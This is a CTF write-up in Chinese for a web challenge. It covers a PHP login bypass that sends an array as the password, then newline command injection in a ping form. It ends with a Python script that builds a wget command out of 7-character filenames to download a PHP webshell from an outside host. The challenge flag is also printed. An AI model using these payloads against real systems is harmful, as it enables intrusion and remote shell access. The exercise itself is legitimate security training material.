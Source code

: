 # 题目：网络管理系统

### 题目描述：为写出好漏洞而生

### 题目难度： 🌟🌟🌟🌟

### 考点: 命令执行

### 维护：le31ei

### KEY: `flag{d15443798b35face458a88dc9561eaa7}`

### 配置信息： 
1. 开放端口： `8080`

### 解题过程：

首先发现有备份文件  index.php.bak  
下载下来,进行审计

```php

functiond_addslashes($array)
{
    foreach($arrayas$key=>$value)
    {
        if(!is_array($value))
        {
            !get_magic_quotes_gpc()&&$value=addslashes($value);
            $array[$key]=$value;
            }
            else{$array[$key]=d_addslashes($array[$key]);
            }}return$array;}$_POST=d_addslashes($_POST);$_GET=d_addslashes($_GET);
```

发现有伪全局过滤，注入就别想了．再继续往下看，这里存在一个逻辑漏洞：

PHP

$username=isset($_POST['username'])?$_POST['username']:die();$password=isset($_POST['password'])?md5($_POST['password']):die();$sql="select password from users  where username='$username'";$result=$conn->query($sql);if(!$result){die('alert("用户名或密码错误!!")');}$row=$result->fetch_assoc();if($row[0]===$password){$_SESSION['username']=$username;$_SESSION['status']=1;header("Location:./ping.php");}else{die("alert('用户名或密码错误!!')");}

关键点在这里：

PHP

if(!$result){die('alert("用户名或密码错误!!")');}

即便是我们输入一个不存在的用户,这if也永远不会被执行,因为 $db->query($sql) 返回的是一个mysql resource类型,始终不可能为空. 你可以用var_dump($result)试一下.

接下来就考察对php的熟悉程度了

PHP

$row[0]===$password

如果我们输入了一个不存在的用户名,那么$row[0] 是等于 NULL的,但是 md5($array) 也是返回 NULL,所以只需要让password是一个数组,就可以绕过这里

所以最终用户名密码为:

username=1&password[]=1

绕过登陆之后,发现可以执行ping命令,经过测试发现:

1. ip 必须是 x.x.x.x 的格式, x 代表 1-3个数字

2. ip长度必须大于等于7,小于等于15,否则都会返回ip格式错误

3. 可以使用这样格式的ip: x.x.x.x[任意字符]

当 ip为ip=0.0.0.1||2时,返回 PING 0.0.0.12 (0.0.0.12): 56 data bytes

说明了|| 被替换为空了,同样道理,你可以发现&,$,(),;`,都被替换为了空

最后发现 %0a没有被过滤:

测试:ip=0.0.0.1%0als -al,返回如下,说明ls已经成功执行.

PING 0.0.0.1 (0.0.0.1): 56 data bytes

total 8

drwxr-xr-x 2 www-data www-data 4096 Apr  7 04:54 .

drwxr-xr-x 5 www-data www-data 4096 Apr  7 04:54 ..

测试:ip=0.0.0.1%0apwd,返回了当前的绝对路径：

PING 0.0.0.1 (0.0.0.1): 56 data bytes

/usr/share/nginx/html/sandBox/10.36.101.50

发现只有七个字符的可控输入空间,就是7个字符的命令执行啦,参考这篇文章http://wonderkun.cc/index.html/?p=524

下面给出python的payload吧:

Python

#!/usr/bin/python#-*- coding: utf-8 -*-importrequestsdefGetShell():url="http://vctf.ctftools.com/ping.php"header={"Cookie":"PHPSESSID=5rfro3re8253tv5f6fp5kd74l6","Content-Type":"application/x-www-form-urlencoded"}#fileNames = ["1.php","-O\ \\","cn\ \\","\ a.\\","wget\\"]# linux创建中间有空格的文件名，需要转义，所以有请求"cn\ \\"# 可以修改hosts文件，让a.cn指向一个自己的服务器。# 在a.cn 的根目录下创建index.html ，内容是一个php shell'''

wget\\

\ wo\\

nd\\

er\\

ku\\

n.\\

cc\ \\

-O\ \\

1.php

'''fileNames=["1.php","-O\ \\\\","cc\ \\\\","n.\\\\","ku\\\\","er\\\\","nd\\\\","\ wo\\\\","wget\\\\"]ip="0.0.0.1%0a"forfileNameinfileNames:createFileIp=ip+">"+fileNameprintcreateFileIp        data="ip="+createFileIp                requests.post(url,data=data,headers=header)proxy={"http":"127.0.0.1:8080"}getShIp=ip+"ls%20-t>1"printgetShIp    data="ip="+getShIp    requests.post(url,data=data,headers=header,proxies=proxy)getShellIp=ip+"sh%201"printgetShellIp    data="ip="+getShellIp    requests.post(url,data=data,headers=header,proxies=proxy)shellUrl="http://vctf.ctftools.com/sandBox/10.25.159.132/1.php"#10.25.159.132为自己IPresponse=requests.get(shellUrl)ifresponse.status_code==200:print"[*] Get shell !"else:print"[*] fail!"if__name__=="__main__":GetShell()

拿到shell之后,连接本地的数据库,获取flag
